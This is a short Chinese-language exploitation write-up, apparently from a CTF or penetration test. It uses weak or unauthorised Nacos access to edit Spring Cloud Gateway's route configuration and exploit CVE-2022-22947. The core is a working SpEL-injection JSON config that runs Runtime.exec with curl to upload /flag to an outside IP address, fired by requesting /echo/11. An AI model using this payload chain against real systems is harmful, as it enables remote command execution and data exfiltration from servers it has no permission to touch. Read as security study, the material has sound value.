 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。


利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了网关的jar，反编译查看到了基础的配置。
![](.topwrite/assets/image_1735374395624.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
此时访问/echo/11触发
